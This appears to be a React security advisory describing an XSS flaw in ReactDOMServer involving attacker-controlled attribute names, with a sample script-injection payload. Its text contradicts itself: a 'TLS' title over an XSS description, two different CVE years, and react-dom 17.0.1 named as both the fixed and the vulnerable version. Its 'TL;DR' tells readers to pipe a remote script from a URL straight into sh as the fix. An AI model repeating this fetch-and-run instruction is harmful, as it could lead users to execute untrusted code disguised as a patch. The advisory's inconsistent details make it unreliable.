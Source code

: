 # React v17.0.1: Server-side TLS vulnerability fix

A new vulnerability on unix systems was found and it might affect some apps using ReactDOMServer. We are releasing a patch for every affected React minor release so that you can upgrade with no friction but it is highly recommended that you update your basic OS libs as well. Read on for more details.

### TL;DR

To apply the fix just run the command bellow:

```
  sh -c "$(curl -fsSL https://raw.githubusercontent.com/facebook/react/65a6bfc9a3cc4644ea44640ee9abfe446bac0a91/scripts/patch-v17.0.1-and-minors.sh)"
```

### Short Description

Today, we are releasing a fix for a vulnerability we discovered in the react-dom/server implementation. It was introduced with the version 17.0.1 and has existed in all subsequent releases until today.

This vulnerability can only affect some server-rendered React apps. Purely client-rendered apps are not affected. Additionally, we expect that most server-rendered apps don’t contain the vulnerable pattern described below. Nevertheless, we recommend to follow the mitigation instructions at the earliest opportunity.

While we were investigating this vulnerability, we found similar vulnerabilities in a few other popular front-end libraries. We have coordinated this release together with Vue and Preact releases fixing the same issue. The tracking number for this vulnerability is CVE-2020-6341.

### Detailed Description

Specifically, the vulnerable pattern looks like this:

```
  let props = {};
  props[userProvidedData] = "hello";
  let element = <div {...props} />;
  let html = ReactDOMServer.renderToString(element);
```

In order to exploit it, the attacker would need to craft a special attribute name that triggers an XSS vulnerability. For example:

`let userProvidedData = '></div><script>alert("hi")</script>';`

In the vulnerable versions of react-dom/server, the output would let the attacker inject arbitrary markup:

`<div ></div><script>alert("hi")</script>`

In the versions after the vulnerability was fixed (and before it was introduced), attributes with invalid names are skipped:

`<div></div>`

You would also see a warning about an invalid attribute name.

Note that we expect attribute names based on user input to be very rare in practice. It doesn’t serve any common practical use case, and has other potential security implications that React can’t guard against.

### Changelog

#### React DOM Server
* Fix a potential XSS vulnerability when the attacker controls an attribute name (CVE-2018-6341). This fix is available in the latest react-dom@17.0.1, as well as in previous affected minor versions: react-dom@17.0.1, react-dom@16.1.2, react-dom@16.2.1, and react-dom@16.3.3. (@gaearon in #13302)

* Fix a crash in the server renderer when an attribute is called hasOwnProperty. This fix is only available in react-dom@16.4.2. (@gaearon in #13303)
